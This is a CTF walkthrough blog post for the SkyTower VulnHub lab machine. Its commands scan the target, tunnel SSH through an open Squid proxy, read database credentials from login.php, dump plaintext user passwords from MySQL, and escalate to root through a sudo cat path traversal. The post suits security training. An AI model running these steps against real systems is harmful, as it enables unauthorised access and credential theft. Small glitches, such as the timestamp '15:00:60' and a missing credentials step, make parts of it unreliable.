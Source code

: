 ```yaml
---
layout: blog_item
title:  "SkyTower - Walkthrough"
date:   2024-03-20 15:00:60
author: Dhruv Ambaliya
description: 'SkyTower 1, a VulnHub CTF Walkthrough Guide'
categories: [walkthroughs]
tags:
- CTF
---
```


<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa fa-solid fa-fire">Intermediate</i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Author Description

This CTF was designed by Telspace Systems for the CTF at the ITWeb Security Summit and BSidesCPT (Cape Town). The aim is to test intermediate to advanced security enthusiasts in their ability to attack a system using a multi-faceted approach and obtain the "flag".

You will require skills across different facets of system and application vulnerabilities, as well as an understanding of various services and how to attack them. Most of all, your logical thinking and methodical approach to penetration testing will come into play to allow you to successfully attack this system. Try different variations and approaches. You will most likely find that automated tools will not assist you.

**Author:** Telspace Systems

**Download:** [VulnHub](https://www.vulnhub.com)

## Enumeration

{% highlight bash %}

nmap -v -p 1-65535 -sV -O -sT 10.0.1.114

{% endhighlight %}


### Host Service Enumeration

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><code>TCP: 80</code></p></pc>
           </td>
           <td>
               <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.2.22 ((Debian))</p></pc>
           </td>
        </tr>

        <td>
            <pc><p><code>TCP: 3128</code></p></pc>
        </td>
        <td>
            <pc><p>http-proxy</p></pc>
        </td>
        <td>
            <pc><p>Squid http proxy 3.1.20</p></pc>
        </td>
     </tr>

      </tbody>

</table>
</div>


## Web Application Analysis

The basic test below indicated the web application could be vulnerable to SQL injection.


![SQLi Test](/img/blog/skytower/sqli-test.png)

[SQL Injection](/penetration-testing/web-app/sql-injection/) looked possible + DB identified as MySQL:

![MySQL error](/img/blog/skytower/sqli-error.png)

Enumeration indicated the web application was filtering the SQLi attempts and removing some characters, such as <code>OR</code>. This was overcome (after researching for SQLi filtering evasion) using the following:

![Burp SQLi Evasion](/img/blog/skytower/burp-sqli-evasion.png)

With no direct access to SSH the above credentials could not be leveraged to gain a Shell.

## HTTP Proxy SSH Connection

The following was used to gain access to the SSH server by proxying the connection through the open **SQUID** server on the target machine.

Setup tunnel with proxytunnel:

{% highlight bash %}

[root:~]# proxytunnel -p 10.0.1.114:3128 -d 127.0.0.1:22 -a 4444

{% endhighlight %}

SSH through the HTTP tunnel:

{% highlight bash %}
[root:~]# ssh john@127.0.0.1 -p 4444  "/bin/sh"
john@127.0.0.1's password:

id
uid=1000(john) gid=1000(john) groups=1000(john)
{% endhighlight %}

<code>/bin/sh</code> needed to be postfixed to the end of the SSH command, as the server appeared to kick connections upon connection.

## Local Enumeration

Enumeration as the user John discovered the MySQL root credentials:

{% highlight bash %}

$ cat login.php
<?php

$db = new mysqli('localhost', 'root', 'root', 'SkyTech');

{% endhighlight %}

## MySQL Credentials

The following process was used to disclosed the users credentials:

{% highlight bash %}
$ mysql -u root -p
Enter password: root
show databases;


\q
Database
information_schema
SkyTech
mysql
performance_schema
$ mysql -u root -p SkyTech
Enter password: root
show tables;
\q
Tables_in_SkyTech
login



mysql -u root -p SkyTech
Enter password: rootroot
ERROR 1045 (28000): Access denied for user 'root'@'localhost' (using password: YES)
mysql -u root -p SkyTech
Enter password: root
select * from login;
\q
id    email    password
1    john@skytech.com    hereisjohn
2    sara@skytech.com    ihatethisjob
3    william@skytech.com    senseable
{% endhighlight %}

## Privilege Escalation - Password Reuse

Password reuse for the user <code>sara</code> was possible using the previously discovered credentials.

{% highlight bash %}

[root:~]# ssh sara@127.0.0.1 -p 4444 -t  "/bin/sh"
sara@127.0.0.1's password:
$ sudo -l
Matching Defaults entries for sara on this host:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sara may run the following commands on this host:
    (root) NOPASSWD: /bin/cat /accounts/*, (root) /bin/ls /accounts/*
{% endhighlight %}

The user **sara** had sudo access to the binary <code>/bin/cat</code>, path traversal was used to cat the contents of <code>/root/flag.txt</code> which contained the root password.

{% highlight bash %}

$ sudo /bin/cat /accounts/../root/flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower
$

{% endhighlight %}

### Getting root:

With the previously discovered credentials it was possible to <code>su -</code> to root:

{% highlight bash %}

$ su -
Password:
root@SkyTower:~# id
uid=0(root) gid=0(root) groups=0(root)
root@SkyTower:~# cat flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower
root@SkyTower:~#

{% endhighlight %}

## Conclusion

I enjoyed the SQL injection filtering evasion, overall a short CTF that can easily be done in an evening.    

Thanks for the VM :)

